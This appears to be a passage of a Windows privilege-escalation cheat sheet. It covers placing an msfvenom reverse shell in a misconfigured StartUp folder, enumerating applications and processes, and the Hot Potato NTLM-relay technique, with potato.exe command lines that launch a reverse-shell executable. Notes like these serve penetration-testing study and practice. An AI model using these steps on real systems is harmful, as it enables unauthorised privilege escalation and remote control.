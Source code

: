 Exploitation:
- create an executable reverse shell with *msfvenom*
- trasfer reverse shell in one of misconfigured `StartUp` directories
- force a system reboot by the user whose privileges we wish to obtain

## InstalledApplications

Enumeration installed applications:
- `wmic product get name,version`

.git directory enumeration:
- "git" in Windows is an anomaly
- `dir .git /AD /s`

General tips for detecting installed applications with vulnerabilities:
- ***verify the privileges of running programmes***
- [ExploitDB](https://www.exploit-db.com/?type=local&platform=windows):
	- "Type": local
	- "Platform": Windows
	- "Search": "priv esc"
	- "Has App": checked
- running programmes: 
	- `tasklist /v`
- not standard process:
	- `.\seatbelt.exe NonStandardProcess`
- winPEAS:
	- `winpeas.exe processinfo`

## LocalhostApplications

Identify applications listening only on internal network interface:

```cmd
netstat -ano
```

## HotPotato

"Hot Potato" is the name of a privilege escalation technique that consists in combining two well-known Windows problems, namely NBNS spoofing and NTLM relay, with the configuration of a fake WPAD proxy server running locally on the target host.

Vulnerability identikit:
1. Vulnerable Windows versions:
	- Windows 7
	-  Windows 8
	-  Windows 10
	-  Windows Server 2008
	-  Windows Server 2012

**Patch**: MS16-075, published on 14/06/2016.

Exploitation:
- [https://github.com/foxglovesec/Potato](https://github.com/foxglovesec/Potato):
	- `potato.exe -ip <victim IP> -cmd "</abs/path/to/reverse.exe>" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true`
	- (alternative) `potato.exe -ip -cmd [cmd to run] -disable_exhaust true -disable_defender true`
